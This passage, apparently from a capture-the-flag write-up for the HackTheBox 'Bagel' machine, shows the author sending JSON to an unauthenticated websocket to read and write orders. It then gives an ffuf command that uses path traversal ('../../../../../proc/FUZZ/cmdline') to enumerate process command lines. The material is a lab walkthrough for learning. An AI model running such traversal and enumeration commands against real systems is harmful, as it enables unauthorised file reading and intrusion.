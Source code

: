 Our `/orders` endpoint connects to `localhost:5000` as a websocket, sending a JSON payload `{"ReadOrder": "orders.txt"}`, hence the text that displays.  Let's try sending the same payload to the websocket, which is exposed to us on port 5000 using `wsdump` :

```bash
$wsdump ws://bagel.htb:5000 
Press Ctrl+C to quit
> {"ReadOrder":"orders.txt"}

< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "12:28:42",
  "RemoveOrder": null,
  "WriteOrder": null,
  "ReadOrder": "order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels]\norder #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels]\norder #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels] \n"
```

Can we write orders?

```bash
> {"WriteOrder": "Em - infinity+1 bagels plz"}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "12:44:27",
  "RemoveOrder": null,
  "WriteOrder": "Operation successed",
  "ReadOrder": null
}
```

Yep:

![](./assets/2023-04-07-19-44-56-image.png)

Obviously the orders app is running as a separate process on port 5000.  Can we find it?  Once again, we can use procfs -- specifically `/proc/PID/cmdline` -- to find the process and arguments as we did above for `self` -- let's pass in a sequence of PIDs, and output the results from `ffuf` to the `out` directory , filtering out 0 byte (empty) and 14 byte (`File not found`) responses:

```bash
$seq 1 1000 | ffuf -w - -u "http://bagel.htb:8000/?page=../../../../../proc/FUZZ/cmdline" -od out -fs 0,14
```

Running a `tail -n +1 out/*` and sifting through the results, the following stands out (remember the comment we found earlier hinting at running a DLL via `dotnet`):
